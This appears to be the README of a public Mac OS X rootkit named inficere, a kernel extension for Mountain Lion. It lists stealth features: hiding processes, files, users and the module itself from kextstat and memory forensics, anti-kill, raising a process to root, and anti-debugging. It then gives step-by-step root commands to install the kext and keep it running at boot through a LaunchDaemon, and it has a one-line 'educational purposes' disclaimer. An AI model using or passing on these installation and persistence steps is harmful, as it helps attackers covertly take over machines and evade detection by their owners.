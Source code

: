 inficere
========

Public version of my Mac OS X rootkit built on top of fractalG's onyx-the-black-cat (https://github.com/gdbinit/onyx-the-black-cat)


Tested only in Mountain Lion, 10.8.2 to 10.8.5. Not guaranteed to work on other versions.


## Features

- process hiding - hides from 'ps PID', 'ps aux', Activity Monitor, top, etc
- file/directory hiding
- user hiding - hides a specified user from 'who', 'w'
- self hiding - hides the module itself from kextstat and volatility
- anti-kill
- PID to UID 0
- anti-debug tricks (mostly by @osxreverser) - anti-anti-ptrace, patch task_for_pid(0), etc

## Instructions

1. `# chmod -R 755 inficere.kext`
2. `# chown -R root:wheel inficere.kext`
3. `# mv inficere.kext /System/Library/Extensions/`
4. `# kextutil /System/Library/Extensions/inficere.kext`
5. `# ./control`

For boot persistence:

1. `# plutil -convert binary1 com.enzo.inficere.plist`
2. `# mv com.enzo.inficere.plist /Library/LaunchDaemons/com.enzo.inficere.plist`
3. `# chown root:wheel /Library/LaunchDaemons/com.enzo.inficere.plist`
4. `# launchctl load -w /Library/LaunchDaemons/com.enzo.inficere.plist`

Inficere will hide above files after loaded.

-

I would like to emphasise that I made this for educational purposes only.
